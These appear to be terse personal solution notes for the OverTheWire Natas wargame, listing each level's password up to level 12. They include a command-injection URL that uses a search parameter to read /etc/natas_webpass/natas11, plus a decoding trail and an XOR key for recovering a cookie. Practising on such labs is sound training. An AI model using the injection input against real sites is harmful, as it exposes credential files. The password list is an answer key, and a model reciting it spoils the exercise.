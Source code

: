 # natas

Username:natas0
Password:natas0
***using

Username:natas1
Password:0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq

Username:natas2
Password:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI

Username:natas3
Password:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

Username:natas4
Password:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

Username:natas5
Password:0n35PkggAPm2zbEpOU802c0x0Msn1ToK

Username:natas6
Password:0RoJwHdSKWFTYR5WuiAewauSuNaBXned
***FOEIUWGHFEEUHOFUOIU

Username:natas7
Password:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
***/etc/natas_webpass/natas8

Username:natas8
Password:xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
**3d3d516343746d4d6d6c315669563362
***==QcCtmMml1ViV3b
***b3ViV1lmMmtCcQ==
***oubWYf2kBq

Username:natas9
Password:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

Username:natas10
Password:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
***http://natas10.natas.labs.overthewire.org/?needle=u+%2Fetc%2Fnatas_webpass%2Fnatas11&submit=Search

Username:natas11
Password:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

***<?php
    function xor_encrypt($in) {
***key = eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeL
***HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5

Username:natas12
Password:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
***


